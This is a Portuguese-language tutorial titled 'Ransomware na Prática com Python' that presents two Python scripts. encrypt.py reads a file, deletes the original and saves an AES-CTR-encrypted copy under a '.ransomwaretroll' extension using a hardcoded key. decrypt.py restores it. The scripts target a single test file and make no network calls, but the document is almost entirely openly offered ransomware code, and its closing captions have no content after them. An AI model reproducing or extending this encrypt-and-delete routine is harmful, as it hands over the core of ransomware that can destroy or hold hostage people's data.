

# Ransomware na Prática com Python

Arquivo encrypt.py (para criptografar a mensagem):

Código:
```python
import os
import pyaes

# Função para criptografar o arquivo
def encrypt_file(file_name, key):
    # Verificar se o arquivo existe
    if not os.path.exists(file_name):
        print(f"O arquivo {file_name} não existe.")
        return

    # Abrir o arquivo a ser criptografado
    with open(file_name, "rb") as file:
        file_data = file.read()

    # Remover o arquivo original
    os.remove(file_name)

    # Criação do objeto AES para criptografia
    aes = pyaes.AESModeOfOperationCTR(key)

    # Criptografar o conteúdo do arquivo
    crypto_data = aes.encrypt(file_data)

    # Gerar o nome do novo arquivo criptografado
    new_file_name = f"{file_name}.ransomwaretroll"

    # Salvar o arquivo criptografado
    with open(new_file_name, "wb") as new_file:
        new_file.write(crypto_data)

    print(f"Arquivo criptografado salvo como {new_file_name}.")

# Definir chave de criptografia
key = b"testeransomwares"
file_name = "teste.txt"

# Chamar a função para criptografar o arquivo
encrypt_file(file_name, key) 


Arquivo decrypt.py  (para descriptografar a mensagem):

Código:

``` Python
import os
import pyaes

# Função para descriptografar o arquivo
def decrypt_file(file_name, key):
    # Verificar se o arquivo criptografado existe
    if not os.path.exists(file_name):
        print(f"O arquivo {file_name} não existe.")
        return

    # Abrir o arquivo criptografado
    with open(file_name, "rb") as file:
        file_data = file.read()

    # Criação do objeto AES para descriptografia
    aes = pyaes.AESModeOfOperationCTR(key)

    # Descriptografar os dados do arquivo
    decrypt_data = aes.decrypt(file_data)

    # Remover o arquivo criptografado
    os.remove(file_name)

    # Criar e salvar o arquivo descriptografado
    new_file_name = file_name.replace(".ransomwaretroll", "")  # Remover o sufixo
    with open(new_file_name, "wb") as new_file:
        new_file.write(decrypt_data)

    print(f"Arquivo descriptografado salvo como {new_file_name}.")

# Definir chave de descriptografia
key = b"testeransomwares"
file_name = "teste.txt.ransomwaretroll"

# Chamar a função para descriptografar o arquivo
decrypt_file(file_name, key) ```




Mensagem de texto:


Encryptando a mensagem:


Arquivo descriptografado salvo como teste.txt:


